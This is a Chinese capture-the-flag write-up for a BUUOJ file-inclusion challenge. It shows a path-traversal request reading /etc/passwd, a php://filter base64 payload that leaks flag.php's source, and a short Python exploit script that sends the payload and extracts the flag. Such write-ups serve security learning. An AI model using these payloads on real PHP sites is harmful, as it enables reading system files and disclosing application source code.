



# 分析

来自[[ACTF2020 新生赛]Include](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Include)

按照提示，访问?file=flag.php


首先想到是否有文件包含，`http://a0bbc459-769e-4fdd-b85a-02c2803046b5.node5.buuoj.cn:81/?file=../../../../../etc/passwd`



寻找flag无果，回味提示，flag是否在flag.php的源码里面呢，尝试php伪协议尝试得到源码,pyload=`?file=php://filter/read=convert.base64-encode/resource=flag.php`



进行base64解码得



# exp

```python
import requests
import base64
import re

url = "http://a0bbc459-769e-4fdd-b85a-02c2803046b5.node5.buuoj.cn:81/"
kw = {
    'file': 'php://filter/read=convert.base64-encode/resource=flag.php'
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.content.decode('utf-8')
    # 打印响应内容（可选）
    #print(res_text)
    line=res_text.splitlines()
    flag=str(base64.b64decode(line[1]))
    #print(flag)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, flag)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

